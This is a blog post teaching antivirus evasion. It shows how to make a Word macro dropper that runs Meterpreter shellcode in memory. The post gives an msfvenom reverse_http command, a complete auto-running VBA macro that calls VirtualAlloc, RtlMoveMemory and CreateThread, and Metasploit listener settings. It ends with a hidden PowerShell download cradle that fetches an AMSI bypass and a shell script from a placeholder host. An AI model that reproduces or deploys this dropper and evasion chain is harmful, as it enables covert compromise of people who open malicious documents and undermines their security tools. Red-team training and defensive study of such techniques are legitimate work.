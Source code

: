 ```yaml
---
layout: post
title: Running ShellCode in Memory | AV Evasion – VBA Version 

---
```

![](/images/2021-08-13-VBAShell/0.png)

Most of the AVs detects anything malicious written on the hard drive, so this post we will discuss how to be stealthier and execute shell code in memory.

For the sake of this example, I am going to use a word macro as a dropper to do this.

Although it may seem complicated, all we need to do is:

1) Use something to allocate unmanaged memory
2) Copy our shell code into our allocated memory from step 1
3) Create execution thread 

I have gone about doing these two ways:
1) Using VBA
2) Using Powershell

In this post, we will discuss how we can get this to work with VBA:

For this, we will use win32 APIs from kernal32.dll:

1) VirtualAlloc
2) RtlMemory
3) CreateThread

If you want to know more about these, please read the MSDN documentations.


Let’s just be optimistic and generate our shellcode using msfvenom:



```
msfvenom -p windows/meterpreter/reverse_http LHOST=x.x.x.x LPORT=443 EXITFUNC=thread -f vbapplication

```


Couple of things to note here:

a)	We are using 32bit arc for the meterpreter shell since MS word by default runs on 32-bit Arc
b)	We are using “thread” as exit func instead of “process” to avoid our MS word getting terminated when shell exits


Read the MSDN docs to understand how the function used works:

1)	[VirtualAlloc]( https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
2)	[rtlmovememory](https://docs.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory)
3)	[Create Thread]( https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread )


The whole VBS looks like this:

```
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
Dim buf As Variant
Dim addr As LongPtr
Dim counter As Long
Dim data As Long
Dim res As Long

buf = Array(insert shell code here)

addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

For counter = LBound(buf) To UBound(buf)
data = buf(counter)
res = RtlMoveMemory(addr + counter, data, 1)
Next counter

res = CreateThread(0, 0, addr, 0, 0, 0)

End Function

Sub Document_Open()
MyMacro
End Sub

Sub AutoOpen()
MyMacro
End Sub

```



![](/images/2021-08-13-VBAShell/1.png)

Once you have this, save the word document in macro format such as .doc or .docm

Set up the listener:

```
set payload windows/meterpreter/reverse_http
set LHOST x.x.x.x
set LPORT 443
set EXITFUNC thread
set set ReverseListenerBindAddress <internal IP>
exploit
```

Once, the victim opens the macro document the shell code runs in memory and we get a reverse shell:



![](/images/2021-08-13-VBAShell/2.png)


![](/images/2021-08-13-VBAShell/3.png)


Now this is a low-profile technique, but there are some issues with this:

1)	The shell code present in word document which is saved on hard drive might get detected by the AV
2)	Whenever the word file is closed the session get terminated since the SPAWNED process is a child of word file.

How can we improve these and make things more efficient?

I will write up on this in a different post, but I will give the folks reading this post a chance to try it for themselves, so here are some clues:

1)	Use Powershell for this, Powershell cannot interact with win32 API directly, so use C# with the help of .NET framework (DllImportAttribute class).
2)	Use P/Invoke APIs contained in the System.Runtime.InteropServices and System namespaces (changing C to C# datatype)
Ref: [P/Invoke](www.pinvoke.net )
3)	Now use Add-Type in PowerShell to compile and create object 

Reference: [Add-Type Example](http://adamringenberg.com/powershell2/Add-Type/ )

4)	Use .NET Copy method to copy the shellcode into memory
5)	Finally, before running the shell code in memory make sure to use an AMSI bypass to run first (use PowerShell download cradle)

Something like this:

```
Sub ShellCodeRunner() 

Dim str As String
  
str = "powershell IEX (New-Object Net.WebClient).DownloadString('http://X.X.X.X/AmsiBypass.ps1'); IEX (New-Object Net.WebClient).DownloadString('http://X.X.X.X/Shell.ps1')"
Shell str, vbHide End Sub
```

You just need to craft the content of shell.ps1 as your homework :)






















